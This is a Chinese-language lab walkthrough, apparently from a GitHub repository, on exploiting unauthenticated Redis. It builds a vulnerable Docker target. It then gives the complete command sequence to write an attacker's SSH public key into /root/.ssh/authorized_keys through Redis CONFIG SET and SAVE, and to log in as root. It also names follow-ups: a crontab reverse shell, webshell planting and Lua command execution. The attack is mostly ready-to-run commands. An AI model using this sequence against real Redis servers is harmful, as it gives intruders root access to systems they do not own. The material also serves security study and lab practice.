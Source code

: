 # redis 未授权访问

## 环境搭建

被攻击环境创建：  
创建虚拟机  
`docker run -tid -p 2222:22 -p 6379:6379 ubuntu`  
安装ssh，redis，vim  
`apt-get update`  
`apt-get install openssh-server`  
`service ssh start`  
`mkdir /root/.ssh`  
`apt-get install redis`  
`apt-get install vim`  
修改如下配置，使redis可远程访问  
`vim /etc/redis/redis.conf`  
`# blnd 127.0.0.1`

以非保护模式启动redis  
`redis-server  --protected-mode no`  

注意：  
这里kali要设置成桥接，否则ssh连接出错。我的被攻击机也是桥接进网络中的docker虚拟机，和实际环境有关系  
连接的端口是 2222  

攻击机：kali  
`apt-get install  redis`  
生成ssh key  
`ssh-keygen -t rsa`  
进入.ssh目录。将生成的目录保存到 kitty.txt  
`cd .ssh`
`(echo -e "\n\n";cat id_rsa.pub; echo -e "\n\n") > kitty.txt`  
将kitty.txt写入redis(使用redis-cli -h IP命令连接主机A，将文件写入)  
`cat kitty.txt | redis-cli -h 192.168.3.35 -x set crack`  
远程登陆redis命令  
`redis-cli -h 192.168.3.35`  
获得当前备份路径的命令  
`config get dir`  
设置备份路径的命令  
`config set dir /root/.ssh`  
设置上传公钥的备份文件名字为 authorized_keys  
`192.168.3.35:6379> config set dbfilename authorized_keys`  
`OK`  
检查是否更改成功(查看有没有authorized_keys文件)，没有问题就保存然后退出，至此，我们成功地写入ssh公钥到靶机上

``` shell
192.168.3.35:6379> config get dbfilename
1) "dbfilename"
2) "authorized_keys"
192.168.3.35:6379> save
OK
192.168.3.35:6379> exit
```

ssh免密登陆  
`ssh -i id_rsa -p 2222 root@192.168.3.35`

后续  
在crontab里写定时任务，反弹shell  
在web目录下写入webshell  
利用redis执行命令：redis 2.6以前的版本内置了lua脚本环境，在有连接redis服务器的权限下，可以利用lua执行系统命令。

### 参考

https://www.cnblogs.com/ECJTUACM-873284962/p/9561993.html  
https://blog.csdn.net/guxiaoguo/article/details/78913245